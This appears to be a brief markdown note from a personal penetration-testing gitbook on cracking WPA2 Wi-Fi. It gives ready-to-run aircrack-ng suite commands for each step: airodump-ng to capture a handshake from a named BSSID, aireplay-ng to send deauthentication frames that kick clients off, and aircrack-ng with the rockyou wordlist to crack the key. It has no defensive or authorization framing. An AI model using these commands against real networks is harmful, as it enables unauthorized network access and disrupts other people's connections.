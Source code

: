 # WPA2

**monitor all network**

```bash
airodump-ng wlan0
```

monitor specific network

```bash
airodump-ng wlan0 --channel 10 --bssid D8:29:18:0A:08:91 --write wpa2
```

then use deauth attack by another cart or power down network from device manual

```bash
aireplay-ng --deauth 25 -a D8:29:18:0A:08:91 wlan1
```

after the client re-authenticate we notice `#Data` is increased

exit sniff mode and use aircrack and wordlist to hack this network

```bash
 aircrack-ng wpa2-01.* -w /home/irix/wordlist/rockyou.txt
```

<figure><img src="../../.gitbook/assets/2025-06-16 19_29_07-Kali Linux - VMware Workstation.png" alt=""><figcaption></figcaption></figure>
